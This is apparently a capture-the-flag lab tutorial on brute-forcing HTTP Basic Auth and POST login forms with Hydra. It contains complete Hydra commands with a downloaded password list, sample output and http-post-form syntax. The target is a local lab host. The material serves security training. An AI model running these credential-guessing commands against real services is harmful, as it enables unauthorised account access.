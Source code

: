 Exploiting Basic Auth with Hydra

  To follow along, start the target system via the question section at the bottom of the page.

We will use the http-get hydra service to brute force the basic authentication target.
In this scenario, the spawned target instance employs Basic HTTP Authentication. We already know the username is basic-auth-user. Since we know the username, we can simplify the Hydra command and focus solely on brute-forcing the password. Here's the command we'll use:

```bash
  # Download wordlist if needed
  [!bash!]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/56a39ab9a70a89b56d66dad8bdffb887fba1260e/Passwords/2023-200_most_used_passwords.txt
  # Hydra command
  [!bash!]$ hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81
  
  ...
  Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-09 16:04:31
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
  [DATA] attacking http-get://127.0.0.1:81/
  [81][http-get] host: 127.0.0.1   login: basic-auth-user   password: ...
  1 of 1 target successfully completed, 1 valid password found
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-09 16:04:32
```
Let's break down the command:
  -l basic-auth-user: This specifies that the username for the login attempt is 'basic-auth-user'.
  -P 2023-200_most_used_passwords.txt: This indicates that Hydra should use the password list contained in the file '2023-200_most_used_passwords.txt' for its brute-force attack.
  127.0.0.1: This is the target IP address, in this case, the local machine (localhost).
  http-get /: This tells Hydra that the target service is an HTTP server and the attack should be performed using HTTP GET requests to the root path ('/').
  -s 81: This overrides the default port for the HTTP service and sets it to 81.

Upon execution, Hydra will systematically attempt each password from the 2023-200_most_used_passwords.txt file against the specified resource. Eventually it will return the correct password for basic-auth-user, which you can use to login to the website and retrieve the flag.


# Login Forms
Nó là login method POST 
```bash
  naruto3co@htb[/htb]$ hydra [options] target http-post-form "path:params:condition_string"
```
```bash
  hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"
```

However, sometimes you may not have a clear failure message but instead have a distinct success condition. For instance, if the application redirects the user after a successful login (using HTTP status code 302), or displays specific content (like "Dashboard" or "Welcome"), you can configure Hydra to look for that success condition using S=. Here’s an example where a successful login results in a 302 redirect:
```bash
  hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```
